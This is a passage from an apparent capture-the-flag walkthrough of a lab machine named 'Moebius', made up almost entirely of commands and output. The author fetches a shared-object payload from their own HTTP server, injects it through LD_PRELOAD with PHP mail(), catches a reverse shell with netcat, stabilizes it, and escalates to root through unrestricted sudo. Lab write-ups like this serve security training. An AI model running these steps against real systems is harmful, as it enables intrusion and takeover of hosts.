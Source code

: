 ```bash
:~/Moebius# ls
execute_code.py  php_filter_chain_generator.py  shell.c  shell.so
```

```bash
:~/Moebius# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
TargetIP- - [17/Jul/2025 xx:xx:xx] "GET /shell.so HTTP/1.1" 200 -
```

```bash
code> putenv('LD_PRELOAD=/tmp/shell.so'); mail('a','a','a','a');
```

<h3>Shell</h3>
<h4>Stabilize</h4>

```bash
:~/Moebius# nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on TargetIP 37242
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bb28d5969dd5:/var/www/html$ which python3
which python3
www-data@bb28d5969dd5:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<tml$ python3 -c 'import pty;pty.spawn("/bin/bash")'
bash: python3: command not found
www-data@bb28d5969dd5:/var/www/html$ script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
www-data@bb28d5969dd5:/var/www/html$ ^Z
[1]+  Stopped                 nc -nlvp 4444
root@ip-10-10-85-251:~/Moebius# stty raw -echo; fg
nc -nlvp 4444

www-data@bb28d5969dd5:/var/www/html$ export TERM=xterm
www-data@bb28d5969dd5:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),27(sudo)
```

```bash
www-data@bb28d5969dd5:/var/www/html$ sudo -l
Matching Defaults entries for www-data on bb28d5969dd5:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on bb28d5969dd5:
    (ALL : ALL) ALL
    (ALL : ALL) NOPASSWD: ALL
```

<h3>Root</h3>

```bash
www-data@bb28d5969dd5:/var/www/html$ sudo su
root@bb28d5969dd5:~# id
uid=0(root) gid=0(root) groups=0(root)
```
